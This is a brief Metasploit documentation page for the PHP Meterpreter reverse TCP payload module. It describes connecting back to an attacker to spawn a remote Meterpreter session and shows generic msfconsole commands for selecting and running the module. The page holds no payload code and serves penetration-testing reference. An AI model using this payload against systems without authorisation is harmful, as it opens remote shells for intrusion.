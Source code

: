 ## PHP Meterpreter, Reverse TCP Inline

Connect back to attacker and spawn a Meterpreter server 
(PHP)


## Module Name
payload/php/meterpreter_reverse_tcp

## Authors
* egypt





## Platforms
php

## Reliability
[Normal](https://github.com/rapid7/metasploit-framework/wiki/Exploit-Ranking)

## Demo

```
msf > use payload/php/meterpreter_reverse_tcp
msf payload(meterpreter_reverse_tcp) > show targets
   ... a list of targets ...
msf payload(meterpreter_reverse_tcp) > set TARGET <target-id>
msf payload(meterpreter_reverse_tcp) > show options
   ... show and set options ...
msf payload(meterpreter_reverse_tcp) > run
```
    
    